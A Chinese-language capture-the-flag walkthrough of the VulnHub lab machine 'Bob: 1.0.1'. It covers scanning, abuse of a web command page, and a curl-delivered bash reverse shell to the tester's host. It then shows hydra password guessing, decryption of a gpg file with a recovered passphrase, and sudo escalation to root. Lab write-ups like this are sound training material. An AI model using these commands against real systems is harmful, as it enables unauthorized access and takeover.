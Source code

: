 # Bob: 1.0.1

2025.03.01 https://www.vulnhub.com/entry/bob-101,226/

## Ip

192.168.5.40

## Scan

```
PORT      STATE SERVICE
80/tcp    open  http
25468/tcp open  unknown
```

先看 80 扫描到 http://192.168.5.40/robots.txt：

```
Disallow: /login.php
Disallow: /dev_shell.php
Disallow: /lat_memo.html
Disallow: /passwords.html
```

挨个看一下，login.php 访问是 404，dev_shell.php 显示了一个执行命令的页面，可以执行命令，进行反弹 shell 到 kali 上：

```
nc -lvnp 8888
curl --data-urlencode 'in_command=/bin/bash -c "/bin/bash -i >& /dev/tcp/192.168.5.3/8888 0>&1"' http://192.168.5.40/dev_shell.php
```

读取到提示，寻找隐藏文件：

```
www-data@Milburg-High:/var/www/html$ cat .hint
Have you tried spawning a tty shell?
Also don't forget to check for hidden files ;)
```

进行枚举，发现这个用户的目录下有文件：

```
www-data@Milburg-High:/home/elliot$ cat theadminisdumb.txt
The admin is dumb,
In fact everyone in the IT dept is pretty bad but I can’t blame all of them the newbies Sebastian and James are quite new to managing a server so I can forgive them for that password file they made on the server. But the admin now he’s quite something. Thinks he knows more than everyone else in the dept, he always yells at Sebastian and James now they do some dumb stuff but their new and this is just a high-school server who cares, the only people that would try and hack into this are script kiddies. His wallpaper policy also is redundant, why do we need custom wallpapers that doesn’t do anything. I have been suggesting time and time again to Bob ways we could improve the security since he “cares” about it so much but he just yells at me and says I don’t know what i’m doing. Sebastian has noticed and I gave him some tips on better securing his account, I can’t say the same for his friend James who doesn’t care and made his password: Qwerty. To be honest James isn’t the worst bob is his stupid web shell has issues and I keep telling him what he needs to patch but he doesn’t care about what I have to say. it’s only a matter of time before it’s broken into so because of this I have changed my password to

theadminisdumb

I hope bob is fired after the future second breach because of his incompetence. I almost want to fix it myself but at the same time it doesn’t affect me if they get breached, I get paid, he gets fired it’s a good time.
```

提到 2 个密码 Qwerty 和 theadminisdumb ，发现了几个用户 bob、elliot、jc、seb ，进行 hydra 测试，发现 elliot 密码是 theadminisdumb ， jc 的密码是 Qwerty

在 bob 目录中又发现了密码提示：

```
jc@Milburg-High:/home/bob$ cat .old_passwordfile.html
<html>
<p>
jc:Qwerty
seb:T1tanium_Pa$$word_Hack3rs_Fear_M3
</p>
</html>
```

但是这些密码都没什么用，其他的提权方式都没有。

在看 bob 目录中，发现一个 notes 文件：

```
seb@Milburg-High:/home/bob/Documents/Secret/Keep_Out/Not_Porn/No_Lookie_In_Here$ cat notes.sh
#!/bin/bash
clear
echo "-= Notes =-"
echo "Harry Potter is my faviorite"
echo "Are you the real me?"
echo "Right, I'm ordering pizza this is going nowhere"
echo "People just don't get me"
echo "Ohhhhhhhhhhhhhhhhhhhhhhhhhhhhhhhhhhhh <sea santy here>"
echo "Cucumber"
echo "Rest now your eyes are sleepy"
echo "Are you gonna stop reading this yet?"
echo "Time to fix the server"
echo "Everyone is annoying"
echo "Sticky notes gotta buy em"
```

里面没看出什么信息，首字母都大写，把信息提取出来 HARPOCRATES ，在 Documents 中发现了一个 login.txt.gpg 文件，需要进行解密：

```
gpg --batch --passphrase HARPOCRATES -d login.txt.gpg
```

得到密码 `bob:b0bcat_` 切换到 bob 用户，sudo -l 显示 ALL，拿下了 root 权限。
